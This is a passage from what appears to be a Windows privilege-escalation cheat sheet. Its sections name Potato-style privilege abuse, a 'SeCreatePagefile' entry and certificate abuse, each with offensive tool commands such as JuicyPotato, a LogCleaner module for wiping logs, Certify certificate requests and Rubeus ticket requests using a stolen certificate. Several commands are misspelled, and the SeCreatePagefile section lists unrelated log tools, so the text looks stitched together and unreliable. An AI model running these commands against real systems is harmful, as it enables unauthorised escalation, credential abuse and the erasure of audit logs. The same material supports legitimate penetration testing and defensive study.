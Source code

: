 OS: Windows

Type: Abuse Privilege

Methods:

1\.

JuicyPotato.exe

Or

https://github.com/decoder-it/juicy_2

https://github.com/antonioCoco/RoguePotato

<a name="abusing-via-secreatepagefile-1"></a>
# Abusing via SeCreatePagefile

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

./WELA.ps1 -LogFile .\\Security.evtx -EventIDStatistics

2\.

flog -s 10s -n 200

Or

invoke-module LogCleaner.ps1

<a name="certificate-abuse"></a>
# Certificate Abuse

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abusing Certificate

Methods:

1\.

ceritify.exe request /ca:dc.domain.local\\DC-CA /template:User...

2\.

Rubeus.exe asktgy /user:CORP\\itadmin /certificate:C:\\cert.pfx
/password:password
